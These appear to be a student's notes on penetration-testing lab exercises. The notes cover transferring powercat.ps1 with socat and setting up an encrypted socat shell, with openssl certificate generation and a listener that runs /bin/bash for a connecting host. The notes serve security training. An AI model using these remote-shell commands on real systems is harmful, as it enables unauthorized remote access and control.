 # 4.2.5 exercises
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use **socat ** to transfer **powercat.ps1 ** from your Kali machine to your Windows system. Keep the file on your system for use in the next section.
host
`sudo socat TCP4-LISTEN:443,fork file:powercat.ps1`
recipient
`socat TCP4:192.168.119.249:443 file:received_powercat.ps1,create`
![[Pasted image 20220218121253.png]]

2.  Use **socat ** to create an encrypted reverse shell from your Windows system to your Kali machine.
generate the key
`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`
combine .key and .crt into .pem
`cat bind_shell.key bind_shell.crt > bind_shell.pem`
create listener using .pem and execute shell
`sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
connect 
`socat - OPENSSL:192.168.119.249:443,verify=0`
![[Pasted image 20220218122213.png]]
3.  Create an encrypted bind shell on your Windows system. Try to connect to it from Kali without encryption. Does it still work?


4.  Make an unencrypted **socat ** bind shell on your Windows system. Connect to the shell using Netcat. Does it work?

